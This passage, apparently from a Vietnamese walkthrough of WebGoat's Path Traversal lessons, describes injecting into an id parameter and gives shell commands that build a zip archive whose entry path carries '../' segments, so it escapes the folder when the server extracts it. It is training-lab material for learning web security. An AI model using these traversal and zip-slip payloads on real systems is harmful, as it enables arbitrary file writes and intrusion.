 Inject vào param id, để ý rằng server tự động thêm `.jpg` vào sau tên nên mình không cần điền vào nữa:

![4](images/4.png)

Sau đó gửi SHA-512 của username lên là xong.

### 7

Tạo cây thư mục như sau và nén vào file `.zip`:

```console
mkdir -p /home/woanmeo11/.webgoat-8.2.2/PathTraversal/woanmeo11
cd /home/woanmeo11/.webgoat-8.2.2/PathTraversal/woanmeo11
curl -o woanmeo11 http://localhost:8080/WebGoat/images/cats/1.jpg
zip profile.zip ../../../../../../../../home/woanmeo11/.webgoat-8.2.2/PathTraversal/woanmeo11/woanmeo11.jpg
```

Nộp file `.zip` này lên là xong. Ở đây file `.zip` sẽ giữ nguyên cây thư mục như trên, bao gồm cả `../` nên khi unzip ra ở phía server dính lỗi sẽ bị path traversal.